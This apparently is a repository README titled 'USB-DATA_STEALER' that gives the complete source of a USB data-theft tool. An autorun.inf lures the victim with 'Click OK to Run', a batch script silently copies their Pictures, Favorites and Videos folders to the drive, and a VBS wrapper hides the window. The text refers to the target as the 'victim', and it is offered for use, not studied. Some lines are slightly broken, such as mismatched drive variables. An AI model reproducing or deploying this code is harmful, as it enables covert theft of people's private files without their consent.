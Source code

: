 ## USB-DATA_STEALER

#### ONCE YOU START THE AUTORUN, YOU CAN ONLY GO BACK WITH DISCONNECT THE USB DRIVER. THINK TWICE! ALSO YOU DON'T HAVE ANY DEFENDER FOR VIRUS AND HARMFUL
#### FILES/FOLDERS COMES FROM VICTIM. THINK TWICE

# start the autorun
###### YOU PRESSED THE RED BUTTON! BE CALM...
## autorun.inf
[autorun]
icon=drive.ico
open=launch.bat
action=Click OK to Run
shell\open\command=launch.bat

## file.bat
@echo off 
:: variables
/min
SET odrive=%odrive:~0,2%
set backupcmd=xcopy /s /c /d /e /h /i /r /y
echo off
%backupcmd% "%USERPROFILE%\pictures" "%drive%\all\My pics"
%backupcmd% "%USERPROFILE%\Favorites" "%drive%\all\Favorites"
%backupcmd% "%USERPROFILE%\videos" "%drive%\all\vids"
@echo off
cls

## invisible.vbs
CreateObject("Wscript.Shell").Run """" & WScript.Arguments(0) & """", 0, False

## launch.bat
wscript.exe \invisible.vbs file.bat